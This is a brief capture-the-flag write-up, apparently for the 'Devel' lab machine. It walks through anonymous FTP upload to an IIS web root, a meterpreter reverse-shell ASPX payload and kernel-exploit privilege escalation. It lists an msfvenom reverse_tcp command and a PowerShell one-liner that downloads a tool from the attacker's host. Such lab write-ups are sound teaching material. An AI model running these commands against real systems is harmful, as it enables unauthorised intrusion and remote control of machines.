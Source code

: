 # Devel - Writeup

### Ports found 80 (http), 21 (ftp)

This box had a big vulnerability and that was an anonymous login to the ftp coupled with the fact that the ftp root was the same as the web root. 

When logged in to ftp you can find a asp_client directory. By searching why this directory exists you can conclude that the server serves .apsx files. This ftp server also allows anonymous uploads. You can test if a upload is browsale by uploading a txt file and then browsing to it. When this is confirmed you are ready to upload a payload using msfvenom. By browsing the .aspx payload and listning on your attacker machine you can get a low priv shell.

Once connected with the low priv shell, you can run systeminfo and then grab the output and run windows_exploit_suggestor.py. It runs offline. You can also get Sherlock or Watson on the victim and run them as well. These are the low hanging fruit. 

In this case several vulnerabilities where found since no hotfixes were installed this was exploited using kernel exploits. At first the exploits did not work then I actually compiled them by myself and then it worked. 

### Notable Commands
- Downloading a file from lowpriv windows: powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.9:8000/Watson.exe','c:\Users\Public\TEST\Watson.exe')"
- Creating the payload for IIS 7.5 aspx msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=1337 -f aspx > totally_not_a_weird_file.aspx


### Lessons Learned
- If you are planning on using a kernel exploit make sure you compile it by yourself.
- Make sure you try Sherlock, Watson and local windows exploit suggestor (python).

>\>boom_root
